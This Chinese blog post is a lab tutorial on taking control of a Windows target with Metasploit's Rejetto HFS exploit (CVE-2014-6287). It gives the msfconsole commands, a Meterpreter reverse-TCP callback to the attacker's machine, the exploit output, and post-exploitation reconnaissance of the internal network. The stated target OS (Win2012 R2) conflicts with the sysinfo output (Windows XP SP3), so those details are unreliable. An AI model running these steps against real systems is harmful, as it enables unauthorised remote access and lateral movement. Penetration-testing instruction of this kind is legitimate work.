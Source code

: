 ```yaml
---
layout: post
category: binghe-code-hack
title: 使用Metasploit获取目标的控制权限
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: 使用Metasploit获取目标的控制权限
lock: need
---
```


# 使用Metasploit获取目标的控制权限

攻击机： Kali 192.168.175.128

靶机： Win2012 R2 192.168.175.130

在上一篇《[对威胁建模(附加搭建CVE:2014-6287漏洞环境](https://blog.csdn.net/l1028386804/article/details/86567192))》中，我们确定了目标系统的漏洞和Metasploit的可利用模块，接下来我们就真正获取目标的控制权限。

```
msfconsole
use exploit/windows/http/rejetto_hfs_exec
set RHOST 192.168.175.130
set RPORT 8080
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.175.128
exploit
```

具体操作如下：

```
msf5 > use exploit/windows/http/rejetto_hfs_exec 
msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOST 192.168.175.130
RHOST => 192.168.175.130
msf5 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080
msf5 exploit(windows/http/rejetto_hfs_exec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/http/rejetto_hfs_exec) > set LHOST 192.168.175.128
LHOST => 192.168.175.128
msf5 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.175.130  yes       The target address range or CIDR identifier
   RPORT      8080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.175.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
[*] Using URL: http://0.0.0.0:8080/OHqKAjyg9dj9u
[*] Local IP: http://192.168.175.128:8080/OHqKAjyg9dj9u
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /OHqKAjyg9dj9u
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 1 opened (192.168.175.128:4444 -> 192.168.175.130:1091) at 2019-01-23 11:32:15 +0800
[!] Tried to delete %TEMP%\OmpsEelxzVs.vbs, unknown result
[*] Server stopped.

meterpreter > 
```

执行完后，我们就获得了目标主机的控制权。

接下来，我们看看内网中有没有其他主机，如下所示：

```
meterpreter > sysinfo
Computer        : LIUYAZHUANG
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : zh_CN
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
meterpreter > arp

ARP cache
=========

    IP address       MAC address        Interface
    ----------       -----------        ---------
    192.168.175.2    00:50:56:e7:f5:30  2
    192.168.175.128  00:0c:29:68:65:5b  2
    192.168.175.131  00:0c:29:cf:f6:ac  2

meterpreter > 
```

可以看到内网中有一台192.168.175.131的主机。

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
